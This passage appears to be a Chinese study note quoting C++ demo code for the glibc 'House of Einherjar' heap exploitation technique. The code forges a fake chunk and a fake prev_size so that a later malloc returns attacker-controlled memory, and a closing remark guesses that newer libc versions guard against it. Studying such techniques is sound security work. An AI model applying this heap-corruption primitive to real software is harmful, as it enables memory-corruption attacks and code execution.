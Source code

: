 ```cpp
    printf("This is easiest if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");
    printf("If it had been modified, we would need a fake chunk inside "
           "b where it will try to consolidate the next chunk\n");

    // Write a fake prev_size to the end of a
    printf("\nWe write a fake prev_size to the last %lu bytes of a so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    printf("Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;

    //Change the fake chunk's size to reflect b's new prev_size
    printf("\nModify fake chunk's size to reflect b's new prev_size\n");
    fake_chunk[1] = fake_size;
	//fake_chunk[0] = fake_size;

	malloc(0xf8);
    // free b and it will consolidate with our fake chunk
    printf("Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
    free(b);
    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    //if we allocate another chunk before we free b we will need to 
    //do two things: 
    //1) We will need to adjust the size of our fake chunk so that
    //fake_chunk + fake_chunk's size points to an area we control
    //2) we will need to write the size of our fake chunk
    //at the location we control. 
    //After doing these two things, when unlink gets called, our fake chunk will
    //pass the size(P) == prev_size(next_chunk(P)) test. 
    //otherwise we need to make sure that our fake chunk is up against the
    //wilderness
	fake_chunk[1] = 0x101;
    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    d = malloc(0xf8);
    printf("Next malloc(0xf8) is at %p\n", d);
}
```
此后又发现问题，分配d时必须要大小和fake_chunk一致才行，否则依然会因为presize的检查而corrupted掉。猜测是当前的libc已有了einherjar的防护，具体还有日后看代码。